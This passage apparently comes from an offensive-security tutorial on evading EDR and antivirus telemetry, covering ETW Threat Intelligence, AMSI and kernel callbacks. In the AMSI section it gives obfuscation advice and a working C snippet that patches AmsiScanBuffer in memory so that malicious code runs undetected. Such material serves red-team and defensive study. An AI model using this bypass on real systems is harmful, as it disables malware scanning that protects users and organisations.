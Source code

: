 As we can see, ETW TI is very capable. Fortunately, (for us. Unfortunately for cybersecurity) Microsoft makes gaining access to the ETW TI provider a pain for anti-malware products. 

Logs are a powerful source of telemetry for AV/EDR solutions, but they aren’t the only source. 

# AMSI
Anti-Malware Scan Interface (AMSI) is another powerful source of telemtry. To put things simply, AMSI is simply a way to gain visibility into code through an appropriately-named AMSI.dll. It affects PowerShell, C# (and .NET in general), VBA and VBScript, and JScript. 

If you have ever attempted to run an unobfuscated PowerShell script before, you have likely run into AMSI. AMSI has a secret however.

AMSI's secret is that it is essentially performing static detections. Which means everything we learned about bypassing static detections applies here.

To start, that means we need to obfuscate identifiers like variable names, function names, class names and other strings within our codebase. Further, specifically pertaining to C#, we can change the C# Assembly's GUID. 

If we want to go even further, however, we can take AMSI out of the equation entirely. Similarly to how we disabled ETW we can do the same to AMSI. 

Example ([courtesy of Mr-Un1k0d3r](https://github.com/Mr-Un1k0d3r/AMSI-ETW-Patch/blob/main/patch-amsi-x64.c)):
```c
#include <windows.h>

int main() {
	DWORD dwOld = 0;
	DWORD offset = 0x83;
	FARPROC ptrAmsiScanBuffer = GetProcAddress(LoadLibrary("amsi.dll"), "AmsiScanBuffer");
	VirtualProtect(ptrAmsiScanBuffer + offset, 1, PAGE_EXECUTE_READWRITE, &dwOld);
	memcpy(ptrAmsiScanBuffer + offset, "\x74", 1);
	VirtualProtect(ptrAmsiScanBuffer + offset, 1, dwOld, &dwOld);
	return 0;
}
```
The difference between this code and what we used to patch ETW is that here instead of simply returning, we are switching the `jz` (jump if zero; similar to if x == y) Assembly instruction to `jnz` (jump if not zero; similar to if x != y). 

AMSI would normally flag our malicious code and stop it from running, but with this patch, we switch the logic and AMSI allows our malicious code to run instead.

# Kernel Callbacks

Like ETW TI, kernel callbacks are something we cannot really tamper with (again, at least from user-land). Callbacks, in general, are essentially like saying “when this ‘event’ occurs or finishes, let me know”. 

Kernel callbacks allow EDRs to run code when certain events happen. These can be things like Process Creation, Image Load (i.e what happens just prior to Process Creation), Thread Creation, Handle Requests, or registry actions.
